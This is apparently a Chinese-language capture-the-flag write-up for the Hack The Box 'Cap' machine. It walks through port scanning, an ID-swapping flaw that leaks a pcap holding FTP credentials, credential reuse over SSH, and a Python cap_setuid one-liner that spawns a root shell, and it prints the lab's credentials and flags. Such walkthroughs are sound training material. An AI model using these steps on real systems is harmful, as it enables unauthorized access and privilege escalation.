


# Cap

:::info

Difficulty: Easy

Operating System: Linux

:::

## Target IP Address

```plaintext
10.10.10.245
```

## 资产探测

```bash
┌──(randark ㉿ kali)-[~]
└─$ sudo ./tools/fscan-1.8.4/fscan -h 10.10.10.245
......
start infoscan
10.10.10.245:21 open
10.10.10.245:22 open
10.10.10.245:80 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://10.10.10.245       code:200 len:19386  title:Security Dashboard

┌──(randark ㉿ kali)-[~]
└─$ sudo nmap -vv --min-rate=2000 -A -p- 10.10.10.245
......
Nmap scan report for bogon (10.10.10.245)
Host is up, received echo-reply ttl 63 (0.15s latency).
Scanned at 2025-03-19 20:24:24 CST for 72s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2vrva1a+HtV5SnbxxtZSs+D8/EXPL2wiqOUG2ngq9zaPlF6cuLX3P2QYvGfh5bcAIVjIqNUmmc1eSHVxtbmNEQjyJdjZOP4i2IfX/RZUA18dWTfEWlNaoVDGBsc8zunvFk3nkyaynnXmlH7n3BLb1nRNyxtouW+q7VzhA6YK3ziOD6tXT7MMnDU7CfG1PfMqdU297OVP35BODg1gZawthjxMi5i5R1g3nyODudFoWaHu9GZ3D/dSQbMAxsly98L1Wr6YJ6M6xfqDurgOAl9i6TZ4zx93c/h1MO+mKH7EobPR/ZWrFGLeVFZbB6jYEflCty8W8Dwr7HOdF1gULr+Mj+BcykLlzPoEhD7YqjRBm8SHdicPP1huq+/3tN7Q/IOf68NNJDdeq6QuGKh1CKqloT/+QZzZcJRubxULUg8YLGsYUHd1umySv4cHHEXRl7vcZJst78eBqnYUtN3MweQr4ga1kQP4YZK5qUQCTPPmrKMa9NPh1sjHSdS8IwiH12V0=
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqG/RCH23t5Pr9sw6dCqvySMHEjxwCfMzBDypoNIMIa8iKYAe84s/X7vDbA9T/vtGDYzS+fw8I5MAGpX8deeKI=
|   256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPbLTiQl+6W0EOi8vS+sByUiZdBsuz0v/7zITtSuaTFH
80/tcp open  http    syn-ack ttl 63 Gunicorn
|_http-title: Security Dashboard
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: gunicorn
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
```

尝试进行目录爆破

```bash
┌──(randark ㉿ kali)-[~]
└─$ dirsearch -u 10.10.10.245
[20:24:45] Starting:
[20:25:54] 302 -  208B  - /data  ->  http://10.10.10.245/
[20:25:54] 302 -  208B  - /data/adminer.php  ->  http://10.10.10.245/
[20:25:54] 302 -  208B  - /data/autosuggest  ->  http://10.10.10.245/
[20:25:57] 302 -  208B  - /download/history.csv  ->  http://10.10.10.245/
[20:25:57] 302 -  208B  - /download/users.csv  ->  http://10.10.10.245/
```

显然没有有价值信息

## Port 80 Web Service

尝试直接访问



注意到右侧导航栏有以下功能点

- Dashboard
- Security Snapshot (5 Second PCAP + Analysis)
- IP Config
- Network Status

wappalyzer 检测到的技术指纹如下


在 `Security Snapshot (5 Second PCAP + Analysis)` 页面中，发现其链接为 `http://10.10.10.245/data/2`

尝试将url中的参数换为`0`之后，得到一个pcap文件，在其中发现FTP登录凭据



```plaintext
nathan:Buck3tH4TF0RM3!
```

## Port 21 FTP

尝试使用获得的凭据进行登录

```bash
┌──(randark㉿kali)-[~]
└─$ ftp nathan@10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
229 Entering Extended Passive Mode (|||57378|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Mar 19 12:23 user.txt
226 Directory send OK.
```

## FLAG - USER

```flag title="/home/nathan/user.txt"
928f862234737ca80c7ef76a8bdeb8cd
```

## Port 22 SSH 脆弱凭据

使用FTP的凭据也可以登录SSH

```bash
┌──(randark㉿kali)-[~]
└─$ ssh nathan@10.10.10.245
......
nathan@cap:~$ whoami
nathan
```

## 提权至root

上传`linpeass.sh`自动化探测

```bash
╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions
tmux 3.0a


/tmp/tmux-1001

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

可以看到`/usr/bin/python3.8`拥有极度敏感的能力`cap_setuid`

尝试加以利用

```bash
(remote) nathan@cap:/tmp$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/tmp# whoami
root
```

成功提权至root用户

## FLAG - ROOT

```flag title="/root/root.txt"
e7ccd2bbb7475b1507a58608cb6d54db
```
